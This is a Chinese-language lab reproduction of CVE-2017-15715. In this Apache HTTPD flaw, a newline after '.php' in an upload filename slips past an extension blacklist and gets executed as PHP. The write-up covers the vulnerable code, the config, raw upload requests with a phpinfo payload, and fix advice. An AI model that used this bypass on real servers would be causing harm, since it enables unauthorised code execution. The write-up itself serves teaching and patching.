






## 漏洞信息

### 0x01漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_PHP来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，此漏洞的出现是由于 apache 在修复第一个后缀名解析漏洞时，用正则来匹配后缀。在解析 php 时 xxx.php\x0A 将被按照 php 后缀进行解析，导致绕过一些服务器的安全策略。

### 0x02影响版本

Apache HTTPD 2.4.0~2.4.29

### 0x03漏洞分析

index.php源码

```php
<?php
if(isset($_FILES['file'])) {
    $name = basename($_POST['name']);
    $ext = pathinfo($name,PATHINFO_EXTENSION);
    if(in_array($ext, ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'])) {
        exit('bad file');
    }
    move_uploaded_file($_FILES['file']['tmp_name'], './' . $name);
} else {

?>

<!DOCTYPE html>
<html>
<head>
        <title>Upload</title>
</head>
<body>
<form method="POST" enctype="multipart/form-data">
        <p>
                <label>file:<input type="file" name="file"></label>
        </p>
        <p>
                <label>filename:<input type="text" name="name" value="evil.php"></label>
        </p>
        <input type="submit">
</form>
</body>
</html>

<?php
}
?>

```

以POST请求方式传入参数name，并通过设置黑名单来过滤后缀。

配置文件

```
#cat /etc/apache2/conf-available/docker-php.conf

<FilesMatch \.php$>
        SetHandler application/x-httpd-php
</FilesMatch>

DirectoryIndex disabled
DirectoryIndex index.php index.html

<Directory /var/www/>
        Options -Indexes
        AllowOverride All
</Directory>
```

`.php$`使用$来匹配以.php为后缀的文件，那么在文件名后插入换行符`\x0A`则可以绕过php黑名单，实现文件上传。

## 漏洞复现

### 0x04靶场搭建

使用vulhub靶场，编译运行漏洞环境

```
cd vulhub/httpd/CVE-2017-15715
docker-compose build
docker-compose up -d
```





### 0x05开始复现

访问一下



上传成功，那我们先来分析漏洞的源码

```
<FilesMatch \.php$>
        SetHandler application/x-httpd-php
</FilesMatch>
```

这段代码是 Apache 服务器配置文件（如 `.htaccess` 或 `httpd.conf`）中的一段配置，用于指定如何处理 `.php` 文件，利用正则表达式$的特性 <FilesMatch \.php$> 他会匹配换行符将其成功执行

那我们先上传一个php文件

```php
<?php phpinfo();?>
```

抓包后的请求包

```
POST / HTTP/1.1
Host: 156.238.233.87:8080
Content-Length: 322
Cache-Control: max-age=0
Origin: http://156.238.233.87:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZjli9OyS81w7mfPk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://156.238.233.87:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryZjli9OyS81w7mfPk
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryZjli9OyS81w7mfPk
Content-Disposition: form-data; name="name"

evil.php
------WebKitFormBoundaryZjli9OyS81w7mfPk--

```

发包显示bad file

然后我们来看index.php对文件的处理

```php
<?php
if(isset($_FILES['file'])) {
    $name = basename($_POST['name']);
    $ext = pathinfo($name,PATHINFO_EXTENSION);
    if(in_array($ext, ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'])) {
        exit('bad file');
    }
    move_uploaded_file($_FILES['file']['tmp_name'], './' . $name);
} else {

?>
```

原来这里是对我们的name参数进行的过滤操作，在上面的请求包中name参数就是evil.php，所以我们尝试换成txt后缀

```
POST / HTTP/1.1
Host: 156.238.233.87:8080
Content-Length: 310
Cache-Control: max-age=0
Origin: http://156.238.233.87:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZjli9OyS81w7mfPk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://156.238.233.87:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryZjli9OyS81w7mfPk
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryZjli9OyS81w7mfPk
Content-Disposition: form-data; name="name"

evil.txt
------WebKitFormBoundaryZjli9OyS81w7mfPk--

```

上传成功，然后访问evil.txt



正常回显，那我们利用漏洞点绕过黑名单，加个%0a，注意这里不是直接在后缀名上加

而是修改name参数值，点击hex，找到文件名，在.php后插入一个换行符\x0A，文件上传成功



然后我们访问evil.php%0a

发现成功执行



### 0x06修复建议

1. 升级apache版本
2. 利用时间戳、随机数等方法对上传文件进行重命名
3. 禁止上传文件执行
